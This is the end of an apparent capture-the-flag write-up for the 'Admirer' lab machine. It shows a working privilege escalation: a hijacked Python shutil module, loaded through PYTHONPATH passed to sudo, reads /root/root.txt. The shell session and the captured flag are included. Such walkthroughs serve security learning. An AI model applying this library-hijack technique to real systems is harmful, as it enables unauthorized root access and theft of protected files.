     from shutil import make_archive

    src = '/var/www/html/'

    # old ftp directory, not used anymore
    #dst = '/srv/ftp/html'

    dst = '/var/backups/html'

    make_archive(dst, 'gztar', src)

As we can export our environmental variable to `sudo`, we can rewrote the
`shutil` module to execute the code we want. We wrote a specific `shutil.py` script:

        :::python
        def make_archive(a,b,c):
            print('ok')
            with open('/root/root.txt') as f:
                with open('/tmp/plop/flag.txt', 'w') as g:
                    g.write(f.read())

And run the web backup with specifying our `PYTHONPATH` environment variable.

    :::text
    waldo@admirer:/tmp/plop$ sudo PYTHONPATH=/tmp/plop /opt/scripts/admin_tasks.sh 6
    Running backup script in the background, it might take a while...
    waldo@admirer:/tmp/plop$ ok
    cat flag.txt
    6bd44137e00395497fefe44684913599

# Wrapping up

The box was a combination of simple techniques. As the exposed surface was
really small (FTP, SSH and HTTP) there was not a lot of rabbit hole during
exploration. I am a bit mad that the "exploit" for adminer was not in
`searchsploit` as I lost some time before putting the search into Google.

The root part was quit simple if you know already know the issue.

